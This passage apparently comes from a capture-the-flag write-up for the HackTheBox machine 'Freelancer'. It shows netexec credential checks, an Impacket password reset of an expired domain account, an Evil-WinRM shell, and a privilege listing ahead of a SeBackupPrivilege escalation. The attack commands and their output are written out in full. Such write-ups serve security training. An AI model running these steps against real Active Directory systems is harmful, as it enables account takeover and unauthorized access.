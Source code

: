 #### Reset Password / Shell

Checking the password now shows a different error, that the password is expired:

```

oxdf@hacky$ netexec smb freelancer.htb -u liza.kazanof -p 'RockYou!'
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\liza.kazanof:RockYou! STATUS_PASSWORD_EXPIRED

```

If the password I have is the old one, then I can reset it:

```

oxdf@hacky$ changepasswd.py 'freelancer.htb/liza.kazanof:RockYou!@freelancer.htb' -newpass '0xdf0xdf!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of freelancer.htb\liza.kazanof
[*] Connecting to DCE/RPC as freelancer.htb\liza.kazanof
[!] Password is expired or must be changed, trying to bind with a null session.
[*] Connecting to DCE/RPC as null session
[*] Password was changed successfully.
oxdf@hacky$ netexec smb freelancer.htb -u liza.kazanof -p '0xdf0xdf!'
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [+] freelancer.htb\liza.kazanof:0xdf0xdf!

```

It works over [Evil-WinRM](https://github.com/Hackplayers/evil-winrm):

```

oxdf@hacky$ evil-winrm -i freelancer.htb -u liza.kazanof -p '0xdf0xdf!'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\liza.kazanof\Documents>

```

#### Exploit SeBackupPrivilege

liza.kazanof has `SeBackupPrivilege`:

```
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
